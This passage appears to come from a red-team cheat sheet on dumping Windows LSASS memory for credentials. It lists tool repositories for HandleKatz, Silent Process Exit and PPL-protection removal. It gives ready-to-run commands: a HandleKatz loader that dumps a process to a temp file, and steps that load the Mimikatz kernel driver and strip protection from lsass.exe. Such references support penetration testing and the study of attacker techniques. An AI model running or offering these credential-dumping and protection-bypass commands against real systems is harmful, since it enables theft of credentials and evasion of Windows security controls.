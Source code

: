 - [https://github.com/codewhitesec/HandleKatz](https://github.com/codewhitesec/HandleKatz)

```
$ x86_64-w64-mingw32-gcc -o loader.exe loader.cpp -lcrypt32
Cmd > .\loader.exe --pid:852 --outfile:C:\Windows\Temp\dump.obfuscated
```



### LetMeowIn

- [https://github.com/Meowmycks/LetMeowIn](https://github.com/Meowmycks/LetMeowIn)




## Silent Process Exit

* [https://www.deepinstinct.com/2021/02/16/lsass-memory-dumps-are-stealthier-than-ever-before-part-2/](https://www.deepinstinct.com/2021/02/16/lsass-memory-dumps-are-stealthier-than-ever-before-part-2/)
* [https://github.com/deepinstinct/LsassSilentProcessExit](https://github.com/deepinstinct/LsassSilentProcessExit)
* [https://github.com/lengjibo/RedTeamTools/tree/master/windows/LsassSilentProcessExit](https://github.com/lengjibo/RedTeamTools/tree/master/windows/LsassSilentProcessExit)
* [https://github.com/CompassSecurity/PowerLsassSilentProcessExit](https://github.com/CompassSecurity/PowerLsassSilentProcessExit)
* [https://gitlab.com/KevinJClark/csharptoolbox/-/blob/master/ShhProcessExit.cs](https://gitlab.com/KevinJClark/csharptoolbox/-/blob/master/ShhProcessExit.cs)




## Remove PPL Protection

- [https://googleprojectzero.blogspot.com/2018/08/windows-exploitation-tricks-exploiting.html](https://googleprojectzero.blogspot.com/2018/08/windows-exploitation-tricks-exploiting.html)
- [https://itm4n.github.io/lsass-runasppl/](https://itm4n.github.io/lsass-runasppl/)
- [https://blog.scrt.ch/2021/04/22/bypassing-lsa-protection-in-userland/](https://blog.scrt.ch/2021/04/22/bypassing-lsa-protection-in-userland/)
- [https://github.com/itm4n/PPLdump](https://github.com/itm4n/PPLdump)
- [https://itm4n.github.io/the-end-of-ppldump/](https://itm4n.github.io/the-end-of-ppldump/)
- [https://github.com/RedCursorSecurityConsulting/PPLKiller](https://github.com/RedCursorSecurityConsulting/PPLKiller)
- [https://tastypepperoni.medium.com/running-exploit-as-protected-process-ligh-from-userland-f4c7dfe63387](https://tastypepperoni.medium.com/running-exploit-as-protected-process-ligh-from-userland-f4c7dfe63387)
- [https://github.com/tastypepperoni/RunAsWinTcb](https://github.com/tastypepperoni/RunAsWinTcb)

Using Mimikatz driver:

```
PS > sc.exe create mimidrv binPath= C:\Windows\Tasks\mimidrv.sys type= kernel start= demand
PS > sc.exe start mimidrv
PS > Invoke-Mimikatz -Command '"!processprotect /process:lsass.exe /remove" "exit"'
```
